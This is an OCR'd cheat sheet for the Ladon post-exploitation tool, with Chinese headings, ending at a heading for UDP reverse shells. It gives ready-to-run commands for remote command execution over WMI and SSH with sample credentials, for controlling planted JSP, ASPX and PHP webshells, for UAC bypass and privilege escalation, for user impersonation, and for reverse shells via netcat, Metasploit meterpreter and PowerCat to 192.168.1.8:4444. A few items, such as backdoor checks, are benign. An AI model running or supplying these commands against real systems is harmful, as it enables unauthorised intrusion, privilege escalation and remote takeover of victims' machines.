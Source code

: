 ```
##445端口 AtExec远程执行命令（非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##22端口 SshExec远程执行命令（非交互式）
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami

##JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami

##WebShell远程执行命令（非交互式）
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami

提权降权
##BypassUac 绕过UAC执行,支持Win7-Win10
Ladon BypassUac c:\1.exe Ladon BypassUac c:\1.bat

##GetSystem 提权或降权运行程序
Ladon GetSystem cmd.exe Ladon GetSystem cmd.exe explorer

##Runas 模拟用户执行命令
Ladon Runas user pass cmd

其它功能
##Win2008一键启用.net 3.5
Ladon EnableDotNet

##获取内网站点HTML源码
Ladon gethtml http://192.168.1.1

##检测后门
Ladon CheckDoor Ladon AutoRun

##获取本机内网IP与外网IP
Ladon GetIP

##一键迷你WEB服务器
Ladon WebSer 80 Ladon web 80

反弹Shell
##反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc

##反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell

##反弹TCP MSF MET Shell
Ladon ReverseTcp 192.168.1.8 4444 meter

##反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444

##反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444

##反弹TCP CMD & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd Ladon PowerCat 192.168.1.8 4444 psh

##反弹UDP Cmd & PowerShell Shell
```